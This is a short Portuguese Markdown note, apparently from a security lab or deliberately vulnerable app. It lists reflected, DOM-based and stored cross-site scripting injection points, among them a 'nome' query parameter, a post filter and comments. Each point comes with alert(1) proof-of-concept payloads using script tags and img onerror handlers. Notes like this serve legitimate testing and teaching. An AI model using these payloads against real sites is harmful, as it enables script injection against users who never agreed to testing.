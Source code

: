 - Reflected
    - /hello?nome=Teste<script>alert(1)</script> **(Precisa estar autenticado via cookie)**
- DOM
    - Filtro na listagem de POSTS
    - ?filtro=%3Cimg%20src=%22a%22%20onerror=%22alert(1)%22%20/%3E
    ```html
    <img src="a" onerror="alert(1)" />busca
    ```
- Stored
    - Comentários dos posts
    ```html
    <img src="a" onerror="alert(1)" />comentário
    ```